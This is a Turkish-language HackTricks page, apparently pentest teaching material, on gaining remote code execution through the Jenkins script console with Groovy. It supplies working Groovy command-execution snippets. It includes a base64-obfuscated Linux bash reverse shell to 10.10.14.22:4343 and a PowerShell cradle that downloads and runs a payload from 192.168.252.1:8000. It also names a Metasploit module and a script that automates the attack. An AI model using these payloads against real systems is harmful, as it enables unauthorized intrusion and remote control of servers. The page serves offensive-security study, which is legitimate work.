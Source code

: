 # Jenkins RCE with Groovy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Jenkins RCE with Groovy Script

Bu, Jenkins'te yeni bir proje oluşturmaktan daha az gürültülü.

1. _path\_jenkins/script_ yoluna gidin.
2. Metin kutusuna script'i ekleyin.
```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```
Bir komutu şu şekilde çalıştırabilirsiniz: `cmd.exe /c dir`

**linux** üzerinde şunu yapabilirsiniz: **`"ls /".execute().text`**

Metin içinde _tırnak_ ve _tek tırnak_ kullanmanız gerekiyorsa, yükü çalıştırmak için _"""PAYLOAD"""_ (üçlü çift tırnak) kullanabilirsiniz.

**Başka bir yararlı groovy script** şudur ( \[INSERT COMMAND] kısmını değiştirin):
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Linux'te Ters Shell
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Windows'ta Ters Shell

Bir PS ters shell ile HTTP sunucusu hazırlayabilir ve bunu indirmek ve çalıştırmak için Jeking kullanabilirsiniz:
```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```
### Script

Bu süreci [**bu script**](https://github.com/gquere/pwn_jenkins/blob/master/rce/jenkins_rce_admin_script.py) ile otomatikleştirebilirsiniz.

Bir ters shell almak için MSF kullanabilirsiniz:
```
msf> use exploit/multi/http/jenkins_script_console
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
